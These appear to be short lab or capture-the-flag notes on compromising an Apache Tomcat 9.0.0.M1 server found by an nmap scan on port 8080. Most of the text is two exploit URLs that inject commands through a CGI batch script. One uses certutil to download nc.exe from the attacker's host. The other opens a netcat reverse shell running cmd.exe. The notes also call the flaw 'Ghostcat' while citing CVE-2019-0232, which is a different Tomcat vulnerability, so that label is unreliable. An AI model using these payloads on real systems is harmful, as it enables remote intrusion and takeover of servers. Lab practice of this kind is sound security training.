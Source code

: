 1. nmap scan reveals Tomcat
2. nmap scan shows it is running on port 8080
3. Visit URL and it is ApacheTomcat/9.0.0.M1
4. Vulnerable to Ghostcat (CVE-2019-0232)
```
http://10.129.201.89:8080/cgi/cmd.bat?&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F10.10.14.6:8000%2Fnc%2Eexe+nc.exe
http://10.129.201.89:8080/cgi/cmd.bat?&nc.exe+10.10.14.6+8443+-e+cmd.exe
```
